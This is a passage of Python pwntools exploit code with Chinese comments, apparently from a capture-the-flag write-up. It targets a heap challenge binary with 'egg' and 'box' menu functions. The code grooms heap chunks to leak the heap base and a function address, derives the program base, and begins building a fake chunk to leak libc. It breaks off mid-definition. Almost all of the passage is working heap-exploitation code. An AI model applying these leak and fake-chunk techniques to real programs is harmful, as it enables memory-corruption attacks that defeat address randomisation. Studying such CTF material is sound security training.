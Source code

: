```python
    p.sendline("10000000")
    #after that, switch two heap

def switch():
    package_egg(0x100000)   #switch two heap

heap_size = 0x100000
egg_ck_size = 16
box_ck_info_sz = 56

#在堆上 malloc 一些 chunk，为接下来的 info leak 做准备
package_egg(0)
get_egg()
package_egg(1)
store_box()
setBoxTag(8, 'A'*8)
store_box()
setBoxTag(8, 'A'*8)
deliver_box(0)
deliver_box(0)

heap2_base = ""
#leak heap 基地址
for i in xrange(0, 8):
    package_egg(0x100000)   #switch two heap
    package_egg(0x100000)   #switch two heap

    package_egg(0)
    store_box()
    setBoxTag(i+1, 'A'*i)
    list_all()
    p.recvuntil("$>" + 'A' * i)
    heap2_base += p.recvn(1)
    deliver_box(0)

heap2_base = u64(heap2_base) - 1
print "heap2_base:", hex(heap2_base)

print_box_info_addr = ""
#leak 程序中一个函数的地址
for i in xrange(0, 8):
    package_egg(0x100000)
    package_egg(0x100000)
    package_egg((16+16)/8)
    store_box()
    setBoxTag(i+1, 'A'*i)
    list_all()
    p.recvuntil("$>" + 'A' * i)
    print_box_info_addr += p.recvn(1)
    deliver_box(0)

print_box_info_addr = u64(print_box_info_addr)
print "print_box_info_addr:", hex(print_box_info_addr)

elf.address = print_box_info_addr - 0x1a30

switch()
switch()
if _debug:
    gdb.attach(p.proc.pid, execute=_source)

#leak libc
fake_chunk = [ 0, #fd, points to self
```